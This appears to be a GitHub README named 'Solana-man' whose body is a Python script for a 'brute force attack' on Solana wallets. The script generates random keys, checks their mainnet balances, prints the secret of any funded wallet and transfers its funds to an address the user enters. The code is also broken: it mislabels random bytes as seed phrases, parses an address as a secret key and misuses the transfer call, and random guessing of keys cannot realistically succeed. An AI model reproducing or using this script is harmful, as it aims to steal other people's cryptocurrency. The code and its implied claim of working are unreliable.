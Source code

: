 # Solana-man
It's great 
import os
import time
from solana.rpc.api import Client
from solana.keypair import Keypair
from solana.system_program import transfer_lamports

# Set up Solana RPC client using the Mainnet URL
solana_client = Client("https://api.mainnet-beta.solana.com")

# Function to generate a random seed phrase
def generate_seed_phrase():
    return os.urandom(32).hex()

# Function to check the balance of a Solana wallet
def check_balance(seed_phrase):
    keypair = Keypair.from_seed(bytes.fromhex(seed_phrase))
    public_key = keypair.public_key
    balance = solana_client.get_balance(public_key)
    return balance

# Function to withdraw the total balance to a specified Solana network receive address
def withdraw_balance(seed_phrases, receive_address):
    total_balance = 0
    for seed_phrase in seed_phrases:
        keypair = Keypair.from_seed(bytes.fromhex(seed_phrase))
        public_key = keypair.public_key
        balance = solana_client.get_balance(public_key)
        if balance > 0:
            transfer_lamports(
                solana_client,
                keypair,
                Keypair.from_secret_key(bytes.fromhex(receive_address)),
                balance
            )
            total_balance += balance
    return total_balance

# Function to check if a Solana network receive address has no cryptocurrency in it
def is_address_empty(address):
    balance = solana_client.get_balance(Keypair.from_secret_key(bytes.fromhex(address)).public_key)
    return balance == 0

# Main function to perform the brute force attack
def brute_force_attack():
    seed_phrases = []
    for i in range(800):
        seed_phrase = generate_seed_phrase()
        balance = check_balance(seed_phrase)
        if balance > 0:
            print(f"Found wallet with balance: {balance} SOL")
            print(f"Seed phrase: {seed_phrase}")
            seed_phrases.append(seed_phrase)
    return seed_phrases

# Main program
start_time = time.time()
seed_phrases = brute_force_attack()
print(f"Brute forced {len(seed_phrases)} wallets in {time.time() - start_time:.2f} seconds")

receive_address = input("Enter your Solana network receive address to withdraw funds: ")
if is_address_empty(receive_address):
    total_balance = withdraw_balance(seed_phrases, receive_address)
    print(f"Total balance sent: {total_balance} SOL")
else:
    print("The receive address has cryptocurrency in it. Aborting the withdrawal.")
